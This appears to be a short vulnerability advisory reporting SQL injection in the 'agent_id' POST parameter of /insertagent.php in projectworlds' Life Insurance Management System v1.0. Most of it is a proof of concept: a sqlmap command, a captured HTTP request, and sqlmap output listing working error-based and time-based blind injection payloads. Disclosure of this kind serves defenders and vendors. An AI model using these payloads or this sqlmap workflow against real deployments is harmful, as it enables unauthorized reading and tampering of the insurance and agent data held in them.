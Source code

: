 

# SQLi vulnerability in Life Insurance Management System v1.0 of file /insertagent.php with param 'agent_id'

**vender**:

- projectworlds

**SoftLink**:

- [Life Insurance Management System in PHP | Projectworlds](https://projectworlds.in/life-insurance-management-system-in-php/)

**Vulnerable File**

- /insertagent.php

**Version**

- V1.0

### POC

```bash
sqlmap -r request.txt --level 5 --batch
```

```http
POST /insertagent.php HTTP/1.1
Host: www.lims.top
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:139.0) Gecko/20100101 Firefox/139.0
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Referer: http://www.lims.top/addAgent.php
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Priority: u=0, i
Upgrade-Insecure-Requests: 1
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Origin: http://www.lims.top
Cookie: PHPSESSID=sqvuccn7rsiqr9bhq7p29tfds2
Content-Length: 51

agent_id=1&agent_password=1&name=1&branch=1&phone=1
```



```
Parameter: agent_id (POST)
    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: agent_id=1' AND GTID_SUBSET(CONCAT(0x7162716b71,(SELECT (ELT(3526=3526,1))),0x716a7a7171),3526) AND 'YiUo'='YiUo&agent_password=1&name=1&branch=1&phone=1

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: agent_id=1' AND (SELECT 4720 FROM (SELECT(SLEEP(5)))vecG) AND 'TwxH'='TwxH&agent_password=1&name=1&branch=1&phone=1
```

![image-20250609053914700](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202506090539874.png)

